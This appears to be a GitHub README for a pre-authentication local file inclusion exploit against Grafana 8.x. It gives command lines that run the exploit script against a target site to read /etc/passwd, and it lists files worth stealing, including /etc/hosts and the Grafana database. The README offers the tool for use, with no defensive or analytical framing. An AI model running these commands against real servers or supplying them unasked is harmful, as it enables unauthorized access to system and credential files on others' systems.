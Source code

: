 # Grafana-LFI-8.x
Exploit grafana Pre-Auth LFI

How to use

python3 grafana-exploit.py http://site.com /etc/passwd

Or

python3 grafana-exploit.py http://site:8080 /etc/passwd


Interesting files

/etc/passwd
/etc/hosts
/var/lib/grafana/grafana.db
